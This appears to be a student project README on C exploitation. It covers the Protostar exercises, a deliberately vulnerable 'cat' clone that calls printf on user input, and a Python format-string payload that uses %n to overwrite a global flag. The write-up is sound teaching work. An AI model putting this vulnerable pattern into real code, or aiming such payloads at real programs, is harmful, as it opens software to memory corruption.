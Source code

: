 ## Exploits in C Project Proposal
Kai Levy and Patrick Huston | Software Systems Spring 2018
### Goal

In this project, we hope to explore the common methods of software exploitation in C. In specific, we want to understand the basis of how it works, what makes software vulnerable, and the steps that can be taken to ensure safety from a developer standpoint. 

### Learning Goals

Over the course of the project, we hope to achieve the following learning goals. 

  - Learn about real security vulnerabilities that can occur in common programs, how to exploit them, and how to avoid them. 
  - Research and learn about vulnerabilities to real software - understanding what the issue was, how it was exploited, and how it was fixed.
  - Develop simple and effective C programs

### Resources
While smashing the stack, having fun, and making profits, we encountered several useful resources that helped us along the way. 

[This paper](http://insecure.org/stf/smashstack.html) provided an in depth look at stack smashing (for fun and profit) from the basics to a full exploit. We found it to be a useful introduction, and supplemented the information there with more incremental tutorials, such as the videos that [this youtuber](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w/videos) published.

[The protostar exploit exercises](https://exploit-exercises.com/protostar/) laid the ground for our work in buffer overflows, formatting, and heap exploits. Protostar includes series of challenges that build on each other to demonstrate common C exploits. All of our work for these exercises was completed on a 32-bit linux VM provided by the site. Additionally, we found that the VM provided by protostar was useful for developing our own exploits, because many features of modern computers (such as [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization), 64-bit architecture, and memory protection) make it difficult to achieve the same results on our own machines.


### Results

#### Protostar

The first portion of our project involved working through the [protostar](https://exploit-exercises.com/protostar/) exploit exercises. In this process, we worked through the following exercises. 

- All of the [stack exercises](https://exploit-exercises.com/protostar/stack0/)
- All of the [format exercises](https://exploit-exercises.com/protostar/format0/)
- Viewed tutorials on the [heap exercises](https://exploit-exercises.com/protostar/heap0/)

We found these exercises to be fun and challenging. We took what we learned from these, and applied it to developing our own exploits. 

#### Developing Exploits

To practice what we learned from protostar, we developed a simplified implementation of the linux utility [`cat`](http://www.linfo.org/cat.html). Our [implementation](https://github.com/phuston/SoftSysExploitsInC/blob/master/copycat.c) includes functionality for the `-n` line number flag and options to read from `stdin` or any number of files specified. 

##### Formatting Exploit

Aside from parsing command line arguments, the core functionality of cat is found in our function `copy_file`. Unfortunately there is a glaring security hole found in this implementation. The `printf` function is designed to be called with a string literal as the first argument, and with any additional parameters afterwards. Passing an argument that the user has control of can expose memory and even allow the user to modify memory by passing in the `%n` format option.

```
/* Output file to stdout line by line 
 */
void copy_file(FILE *file) {
    int linecount = 0;
    char buffer[BUFSIZ];

    while (fgets(buffer, BUFSIZ, file) != NULL) {
        if(gargs.nFlag){
            printf("%6d  ", ++linecount);
        }
        printf(buffer); <-- 'glaring' security hole
    }
}
```

We exploited this flaw in order to modify our global argument flags during execution. While this is not an especially 'malicious' exploit, we feel it demonstrates a significant modification of the program's functionality. To start, we located the memory address of our `gargs` variable, which stored values of our flags, using gdb. 

```
struct gargs_t {
    int nFlag;       /* -n option */
} gargs;
```


```
ccat:     file format elf32-i386         

SYMBOL TABLE:                            
08048114 l    d  .interp        00000000              .interp                      
08048128 l    d  .note.ABI-tag  00000000              .note.ABI-tag                
08048148 l    d  .note.gnu.build-id     00000000              .note.gnu.build-id   
0804816c l    d  .hash  00000000              .hash                                
080481b8 l    d  .gnu.hash      00000000              .gnu.hash                    
080481e4 l    d  .dynsym        00000000              .dynsym                      
080482c4 l    d  .dynstr        00000000              .dynstr           
...
00000000       F *UND*  00000000              puts@@GLIBC_2.0
08049960 g     O .bss   00000004              gargs  <--- LOOK HERE ALLEN!
08049950 g       *ABS*  00000000              _edata
00000000       F *UND*  00000000              strcmp@@GLIBC_2.0
080487aa g     F .text  00000000              .hidden __i686.get_pc_thunk.bx
080485a4 g     F .text  00000120              main
0804840c g     F .init  00000000              _init
```

Now we know that the address of `gargs` is `08049960`. 

We used the simple python below to generate text which would be one of the inputs to our `copycat` program. When the `printf` receives formatting commands, but no further arguments, it simply reads the next values off the stack. Since our input appears on the stack, we may simply write in the desired address, and add the `%n` option -- which writes the number of printed characters to that address -- to overwrite our flag. This technique required some tricky aligning of our payload with the stack, and would not work on a machine with [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization). This is where using the VM provided by the protostar series came in handy. 


```
def pad(s):
 return (s+"A"*500)[:500]

# 08049960 is our address of gargs
print pad("BBBB" + "\x60\x99\x04\x08" + "CCCCCC" + "%x "*7 + "%n ")
```

In this code snippet `\x60\x99\x04\x08` represents the address of `gargs` in 32-bit little-endian, the architecture of the protostar VM. 

The result of our exploit is below. We ran our program without setting any flags, but once our program processed our first argument, it started adding line numbers as we had overwritten the flags during execution! WOW!


```
$ ./ccat test test2
BBBBCCCCCC2000 804a008 0 0 0 0 42424242  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
     1  this
     2  is
     3  a
     4  multilined
     5  entry
     6  thing
     7  
```

### Reflection

Overall, we feel pretty good about the progress we made during this project. We learned a bunch about common C exploits through the tutorials and the exercises. 

Unfortunately, we found it more difficult than anticipated to design our own exploitable programs - especially writing them in a way that wasn't painfully obvious how poorly designed and exploitable they were. While we had hoped to include a version of `copycat` that was vulnerable to a buffer overflow and subsequent arbitrary code execution, we realized during the process that C actually does a relatively good job at stopping developers from writing stupid code -- the most notable functions that allows users to overflow buffers are `gets` and `strcpy`. The `strcpy` function did not fit our program's use at all, and `gets` could only be used for input from `stdin`. Luckily (or unluckily for our project), the functionality from `gets` has been replaced with `fgets`, which does not expose such vulnerabilities. Unlike `gets`, which doesn't complain about anything, `fgets` drops a segmentation fault as soon as it writes beyond a buffer limit - which is exactly what we intended to do. 

Rather than significantly altering the design of our `copycat` implementation to be exploitable, we decided to call it on the project, and spend our energy elsewhere. 

We originally intended to learn more about real-world vulnerabilities in software, and while we learned about some real bugs (including how they related to the exploits we've seen), we didn't learn about the nitty gritty details of their implementations or patches. 

In conclusion, we:
1. Learned some C exploits
2. Wrote a simple C program
3. Exploited that C program